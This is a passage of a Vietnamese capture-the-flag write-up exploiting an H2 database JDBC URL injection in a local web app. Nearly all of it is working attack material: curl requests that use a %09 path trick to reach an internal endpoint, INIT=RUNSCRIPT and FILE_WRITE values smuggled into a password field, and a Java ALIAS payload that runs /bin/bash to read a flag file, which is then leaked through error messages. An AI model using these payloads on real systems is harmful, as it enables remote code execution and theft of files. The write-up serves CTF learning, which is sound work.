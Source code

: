 ```bash
)
```

### 4.4 Ghi & chạy script
```bash
curl -s "http://localhost:8989/internal/testConnection%09"   -H "Cookie: JSESSIONID=<SESSION>"   -H "Content-Type: application/x-www-form-urlencoded"   --data-raw "username=a&password=a;DB_CLOSE_DELAY=-1;INIT=CALL FILE_WRITE((SELECT d FROM X LIMIT 1), '/tmp/rce')"

curl -s "http://localhost:8989/internal/testConnection%09"   -H "Cookie: JSESSIONID=<SESSION>"   -H "Content-Type: application/x-www-form-urlencoded"   --data-raw "username=a&password=a;DB_CLOSE_DELAY=-1;INIT=RUNSCRIPT FROM '/tmp/rce'"
```

### 4.5 Leak danh sách `/` (error-based)
```bash
resp=$(curl -s "http://localhost:8989/internal/testConnection%09"   -H "Cookie: JSESSIONID=<SESSION>"   -H "Content-Type: application/x-www-form-urlencoded"   --data-raw "username=a&password=a;DB_CLOSE_DELAY=-1;INIT=RUNSCRIPT FROM '/tmp/ls'")

echo "$resp" | sed -n 's/.*Connection failed: \(.*\) | URL:.*//p'
# → tìm tên flag 16 ký tự chữ+số, ví dụ: Qb7f4s2Kc8Y1Z0Pd
```

### 4.6 Payload 2 (đọc flag) & exfil
```java
ALIAS SHELL AS $$void shell()throws Exception{
  Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","cat /Qb7f4s2Kc8Y1Z0Pd > /tmp/flag"});
}$$;CALL SHELL();
```
Lặp lại bước ghép/ghi/chạy như trên (có thể dùng bảng `Y(d)`), rồi:
```bash
curl -s "http://localhost:8989/internal/testConnection%09"   -H "Cookie: JSESSIONID=<SESSION>"   -H "Content-Type: application/x-www-form-urlencoded"   --data-raw "username=a&password=a;DB_CLOSE_DELAY=-1;INIT=RUNSCRIPT FROM '/tmp/flag'"
```

Response thành công sẽ trả về 
``` java
HTTP/1.1 200 OK
...
<div th:if="${error}" class="alert alert-danger">
    Connection failed: Syntax error in SQL statement "CSCV2025{Fake_flag}"; expected... | URL: jdbc:h2:mem:testdb;MODE=MySQL;INIT=CREATE SCHEMA IF NOT EXISTS testdb;USER=a;PASSWORD=a;DB_CLOSE_DELAY=-1;INIT=RUNSCRIPT FROM '/tmp/shaaa';
</div>
```

## References Và Tài Liệu Tham Khảo

H2 Docs: https://h2database.com/html/features.html#init (INIT param).
Tomcat URL Normalization: https://tomcat.apache.org/tomcat-9.0-doc/config/http.html.
CWE List: https://cwe.mitre.org/.
